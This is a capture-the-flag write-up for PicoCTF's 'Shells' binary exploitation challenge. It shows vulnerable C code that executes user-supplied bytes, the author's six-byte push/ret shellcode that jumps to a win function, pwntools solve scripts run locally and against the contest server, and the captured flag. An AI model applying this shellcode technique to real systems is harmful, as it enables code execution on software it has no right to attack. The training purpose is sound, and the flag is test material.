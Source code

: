 # Shells -- PicoCTF

This is a binary exploitation challenge worth 70 points.

We are given a binary and a source file, as well as the address (shell2017.picoctf.com) and port number (17533) of the server.  
Let's open the C file:

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}
~~~

Now we know that there is a win function, and the program is going to execute code we give it.  
Let's run the program:

[![asciicast](https://asciinema.org/a/2grn99obqdtjkdpowvnp7ic36.png)](https://asciinema.org/a/2grn99obqdtjkdpowvnp7ic36)

We can see that it asks for 10 bytes, and if you give it anything, it segfaults. We know from the source that it is trying to execute whatever you give it, and I didn't give it executable bytes. 

Let's try to create some executable code.  
We kow that we have 10 bytes to work with, and we know we have a nice, ready-made win function that will give us what we want. Let's open it up in Binary Ninja and find the address of the win function.

![Binja Shells](http://i.imgur.com/7GddlQ5.png)

We can see that the win function starts at `0x08048540`  

Now let's design some code.  
My first thought was to write  
```
call	0x08048540
```
or ```jmp   0x08048540```

However, with research and many failed attempts, I realized that there is no good way to call or jmp to an absolute address directly using opcodes. This is because of the way memory is segmented. When attempting to call or jmp to an absolute address, you also have to give a segment number. However, there isn't a great way to find the segment number unless if you already defined the segment number. Therefore, we need a different solution.

I remembered that most past challenges that I have completed required a buffer overflow to change the return address, and we know that the return address should be `0x08048540`, and that needs to be on the top of the stack, so we can push `0x08048540` on the stack and return to it.  
The Assembly:

```
push	0x08048540
ret
```

We can use an online assembler to get the opcodes. I used [Shell Storm's Assembler/Disassembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) 
`"\x68\x40\x85\x04\x08\xc3"`

Now we can craft a python script to test against the local binary. First, we need to create a flag.txt with any sample text. I just used `flag` Then we can write the script:

```python
# solve.py

from pwn import *

p = process('./shells')

sc = '\x68\x40\x85\x04\x08\xc3'
p.recvuntil(':\n')
p.send(sc)
flag = p.recvline()
print flag

p.close()
```

Let's run the script.

[![asciicast](https://asciinema.org/a/bf75ikwceh1ru8c4cg16y1ejf.png)](https://asciinema.org/a/bf75ikwceh1ru8c4cg16y1ejf)

As you can see, the script ran shells and sent the opcodes, and it outputted the contents of flag.txt. Now we can modify the script to work on the server:

```python
# solve.py

from pwn import *

p = remote('shell2017.picoctf.com', 17533)

sc = '\x68\x40\x85\x04\x08\xc3'
p.recvuntil(':\n')
p.send(sc)
flag = p.recvline()
print flag

p.close()
```

Now let's run it:

[![asciicast](https://asciinema.org/a/boeus0zz511mm26lq723lakc5.png)](https://asciinema.org/a/boeus0zz511mm26lq723lakc5)

As you can see, we opened a connection to the server, and sent the opcodes, and it outputted the flag: `4350d27b024f8597f10b98f164f0fc43`

And we are done!